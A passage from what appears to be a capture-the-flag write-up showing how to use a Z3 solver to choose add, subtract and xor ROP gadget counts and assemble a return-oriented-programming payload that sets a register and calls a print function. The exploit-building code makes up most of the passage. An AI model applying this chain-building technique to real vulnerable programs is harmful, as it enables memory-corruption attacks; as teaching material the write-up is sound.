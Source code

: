 We can begin constructing constraints and feeding things to a Z3 solver!

```py
# Create solver.
s = Solver()

add_terms = [v * BitVecVal(g['const'], 16) for v, g in zip(add_vars, add_gadgets)]
sub_terms = [v * BitVecVal(g['const'], 16) for v, g in zip(sub_vars, sub_gadgets)]
xor_terms = [v * BitVecVal(g['const'], 16) for v, g in zip(xor_vars, xor_gadgets)]

# XOR everything in xor_terms.
from functools import reduce
xor_all = reduce(lambda x, y: x ^ y, xor_terms)

# Add base constraint which ties everything together.
s.add(BitVecVal(rax_init_value, 16) + Sum(add_terms) - Sum(sub_terms) == BitVecVal(target, 16) ^ xor_all)
```

But this constraint isn't enough. Without other constraints, Z3 would return ginormous values which technically satisfy the equation. But there's no way we can call a gadget 1851138 times or -29301 times. We'll need some constraints to limit the values the symbols can take on.

```py
# Bounds constraints.
addsub_limit = 100
s.add(And([ULT(bv, addsub_limit) for bv in add_vars]))
s.add(And([ULT(bv, addsub_limit) for bv in sub_vars]))
s.add(And([ULE(bv, 1) for bv in xor_vars]))   # Boolean property.

# Limitting constraint. Total number of gadgets shouldn't exceed a limit.
gadget_limit = 400 # 4000 bytes limit divide by 8 bytes per gadget.
s.add(1 + Sum(add_vars) + Sum(sub_vars) + Sum(xor_vars) <= gadget_limit)
```

Now that we limit our gadgets properly, we can move on to our final step: evaluation. We'll kindly ask Z3 to spit out a solution, and construct our payload.

```py
# Check satisfiability (and also compute a solution).
if s.check() != sat:
    raise RuntimeError('unable to satisfy constraints')
m = s.model()

# Initialise rax first. (8 byte padding for rbp.)
chain = b'A'*8 + p64(init_rax_addr)

# Chain add gadgets.
for bv, g in zip(add_vars, add_gadgets):
    chain += p64(g['vaddr']) * m.evaluate(bv).as_long()
    # m.evaluate(bv).as_long()...
    #   == 0 => nothing is added to the chain.
    #   == 1 => call (chain) gadget once.
    #   == 2 => call (chain) gadget twice.
    #   etc...

# Chain subtract gadgets.
for bv, g in zip(sub_vars, sub_gadgets):
    chain += p64(g['vaddr']) * m.evaluate(bv).as_long()

# Chain xor gadgets.
for bv, g in zip(xor_vars, xor_gadgets):
    chain += p64(g['vaddr']) * m.evaluate(bv).as_long()

# Finally call print.
chain += p64(elf.sym['print'])

```